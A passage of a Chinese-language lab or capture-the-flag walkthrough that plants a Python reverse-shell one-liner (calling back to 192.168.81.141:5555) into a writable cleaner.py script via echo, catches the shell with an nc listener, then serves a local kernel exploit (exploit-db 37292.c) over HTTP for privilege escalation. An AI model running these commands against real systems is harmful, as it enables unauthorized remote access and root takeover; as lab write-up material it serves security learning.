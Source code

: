 ## 3.1 python建立反弹shell脚本

各种类型的反弹shell在线生成https://shell.nctry.com/

```
'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.81.141",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image-20220304222622360](https://gitee.com/xxb667/img/raw/master/img/image-20220304222622360.png)



```
!/usr/bin/env python import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.81.141",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

由于我们不能直接编辑cleaner.py这个脚本，用echo命令把代码加到cleaner.py里面。

```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.81.141",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > /lib/log/cleaner.py
```

![image-20220304223650698](https://gitee.com/xxb667/img/raw/master/img/image-20220304223650698.png)

## 3.2Getshell：

kali开启监听：

```
nc -lvnp 5555
```



稍等1分钟左右就可以接收到反弹的shell

![image-20220304224722372](https://gitee.com/xxb667/img/raw/master/img/image-20220304224722372.png)

# 4.提权

内核版本为3.1.3  kali`searchsploit ubuntu`  可以内核提权 

## 4.1 kali启动服务器：

```shell
 cp  /usr/share/exploitdb/exploits/linux/local/37292.c .
 python -m http.server 80
```

```
cp  /usr/share/exploitdb/exploits/linux/local/37292.c /home/xxb1
python2 -m SimpleHTTPServer 1234 
```
